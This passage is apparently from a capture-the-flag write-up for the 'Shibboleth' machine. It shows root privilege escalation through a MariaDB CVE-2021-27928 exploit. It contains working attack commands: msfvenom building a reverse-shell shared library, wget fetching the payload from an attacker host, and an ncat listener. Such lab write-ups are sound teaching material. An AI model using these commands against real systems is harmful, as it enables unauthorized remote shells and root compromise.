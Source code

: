 Logging into the database we see that mariaDB version `10.3.25` is installed.

```
ipmi-svc@shibboleth:/tmp$ mysql -u zabbix -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1287
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

This version is vulnerable to [CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928), this means we can load a library at runtime and get code execution as the user the instance is running at, which is root in this case. As a first stap we need to generate our shared library containing a reverse shell. For this we can use msfvenom.

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.93 LPORT=7575 -f elf-so -o CVE-2021-27928.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```

Next we transfer the payload over to the target using python and wget, we also set up our ncat listener on the port we specified.

```
ipmi-svc@shibboleth:/tmp$ wget 10.10.14.93:8000/CVE-2021-27928.so
--2021-11-13 22:45:02--  http://10.10.14.93:8000/CVE-2021-27928.so
Connecting to 10.10.14.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘CVE-2021-27928.so’

CVE-2021-27928.so                                          100%[========================================================================================================================================>]     476  --.-KB/s    in 0s

2021-11-13 22:45:02 (63.8 MB/s) - ‘CVE-2021-27928.so’ saved [476/476]
```

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
